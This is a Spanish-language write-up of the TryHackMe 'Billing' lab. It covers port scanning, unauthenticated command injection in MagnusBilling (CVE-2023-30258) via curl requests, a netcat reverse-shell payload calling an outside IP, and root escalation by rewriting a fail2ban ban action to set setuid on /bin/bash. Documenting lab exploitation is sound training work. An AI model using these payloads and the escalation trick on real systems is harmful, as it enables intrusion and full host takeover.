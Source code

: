 ```yaml
---
title: Billing - TryHackMe
layout: post
permalink: /writeups/THM/Billing
date: 2025-04-22 11:00:00 -0000
description: >
  Write up en español para Billing - TryHackMe
pin: false  
toc: true   
math: false 
mermaid: false 
---
```


## Escaneo de puertos

```bash
nmap -T4 -n -sC -sV -Pn -p- 10.10.20.37
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-21 23:38 CAT
Nmap scan report for 10.10.20.37
Host is up (0.054s latency).
Not shown: 65531 closed tcp ports (reset)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey:
|   3072 79:ba:5d:23:35:b2:f0:25:d7:53:5e:c5:b9:af:c0:cc (RSA)
|   256 4e:c3:34:af:00:b7:35:bc:9f:f5:b0:d2:aa:35:ae:34 (ECDSA)
|_  256 26:aa:17:e0:c8:2a:c9:d9:98:17:e4:8f:87:73:78:4d (ED25519)
80/tcp   open  http     Apache httpd 2.4.56 ((Debian))
|_http-server-header: Apache/2.4.56 (Debian)
| http-robots.txt: 1 disallowed entry
|_/mbilling/
| http-title:             MagnusBilling
|_Requested resource was http://10.10.20.37/mbilling/
3306/tcp open  mysql    MariaDB 10.3.23 or earlier (unauthorized)
5038/tcp open  asterisk Asterisk Call Manager 2.10.6
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

- **22** (`SSH`)
- **80** (`HTTP`)
- **3306** (`MySQL`)
- **5038** (`Asterisk`)

## Servicio MagnusBilling

Dentro del directorio `/mbilling/` podemos encontrar un fichero llamado `README.md` que nos indica la verison de la aplicación.

![alt text](/assets/img/writeups/tryhackme/billing/image-7.pngimage.png)

Si buscamos vulnerabilidades en la aplicación podemos encontrar [CVE-2023-30258](https://nvd.nist.gov/vuln/detail/CVE-2023-30258). 
Esta vulnerabilidad nos permite ejecutar comandos mediante peticiones HTTP sin autenticación.

Según este [PoC](https://eldstal.se/advisories/230327-magnusbilling.html) haremos la siguiente petición.

Al revisar el [código vulnerable](https://github.com/magnussolution/magnusbilling7/blob/f6cd038161349895ff6f186405b9a89f564c9448/lib/icepay/icepay.php#L753) mencionado en el advisory, se aprecia que si se proporciona el parámetro GET `democ` (y su longitud supera los 5 caracteres) en una petición al endpoint `/lib/icepay/icepay.php`, se construye un comando así:

```php
"touch " . $_GET['democ'] . '.txt'
```

Esta cadena se pasa luego a la función `exec()`, lo que hace que el código sea vulnerable a inyección de comandos.

![alt text](/assets/img/writeups/tryhackme/billing/image-7.pngmagnusbilling_vulnerable_code.webp)

Al probar el PoC del advisory con comandos `sleep`, se confirma la vulnerabilidad, pues el servidor tarda sistemáticamente más del tiempo especificado en nuestras órdenes `sleep`, lo que indica que se están ejecutando.

```bash
time curl -s 'http://10.10.20.37/mbilling/lib/icepay/icepay.php?democ=;sleep+5;'
curl -s 'http://10.10.20.37/mbilling/lib/icepay/icepay.php?democ=;sleep+5;'  0.01s user 0.00s system 0% cpu 5.118 total

time curl -s 'http://10.10.20.37/mbilling/lib/icepay/icepay.php?democ=;sleep+3;'
curl -s 'http://10.10.20.37/mbilling/lib/icepay/icepay.php?democ=;sleep+3;'  0.00s user 0.00s system 0% cpu 3.118 total

```

Sabiendo que podemos ejecutar comandos podemos obtener una reverse shell.

```plaintext
;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.23.66.202 4444 >/tmp/f;'
```

Y la codificamos en URL.

![alt text](/assets/img/writeups/tryhackme/billing/image-7.pngimage-1.png)

## Shell con asterisk

![alt text](/assets/img/writeups/tryhackme/billing/image-7.pngimage-2.png)

### User flag

![alt text](/assets/img/writeups/tryhackme/billing/image-7.pngimage-3.png)

## Escalado de privilegios

Ejecutamos 

```bash
asterisk@Billing:/var/www/html/mbilling/lib/icepay$ sudo -l
Matching Defaults entries for asterisk on Billing:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

Runas and Command-specific defaults for asterisk:
    Defaults!/usr/bin/fail2ban-client !requiretty

User asterisk may run the following commands on Billing:
    (ALL) NOPASSWD: /usr/bin/fail2ban-client
```

Al verificar los privilegios de sudo del usuario asterisk, encontramos que dicho usuario tiene permitido ejecutar el comando fail2ban-client como root sin necesidad de contraseña.


**fail2ban-client** es una interfaz de línea de comandos que nos permite interactuar, configurar y controlar el **fail2ban-server**. A modo de resumen, fail2ban es una herramienta de seguridad que monitorea archivos de log en busca de actividades sospechosas (como múltiples intentos fallidos de inicio de sesión) y bloquea las IP ofensivas modificando reglas del firewall.

Verificando el estado del fail2ban-server, observamos que hay 8 jails activos:

![alt text](/assets/img/writeups/tryhackme/billing/image-7.pngimage-4.png)

Los jails son básicamente configuraciones que definen qué logs monitorear, los patrones a buscar y qué acciones tomar cuando se detectan esos patrones.

Al revisar el archivo /etc/fail2ban/jail.local, vemos un ejemplo de jail.

![alt text](/assets/img/writeups/tryhackme/billing/image-7.pngimage-5.png)

Esta configuración indica, entre otras cosas, que el jail **asterisk-iptables** monitorea el archivo `/var/log/asterisk/messages` y busca patrones definidos en el filtro asterisk (/etc/fail2ban/filter.d/asterisk.conf). Cuando se detectan coincidencias, ejecuta la acción definida en **iptables-allports** (/etc/fail2ban/action.d/iptables-allports.conf).

Para usar fail2ban para ejecutar comandos como **root**, podemos modificar una de las acciones definidas para un jail, como la acción que se realiza al banear una IP (actionban).

Primero, consultamos las acciones activas del jail **asterisk-iptables** y luego, modificamos la acción actionban de **iptables-allports-ASTERISK** para ejecutar un comando arbitrario, en este caso, establecer el bit setuid en **/bin/bash**.

![alt text](/assets/img/writeups/tryhackme/billing/image-7.pngimage-6.png)

Ahora, al banear manualmente una IP en el jail **asterisk-iptables**, se ejecutará el comando `chmod +s /bin/bash` como root.

Finalmente, con el bit setuid activado en /bin/bash, podemos usarlo para obtener una shell con privilegios de root

![alt text](/assets/img/writeups/tryhackme/billing/image-7.png)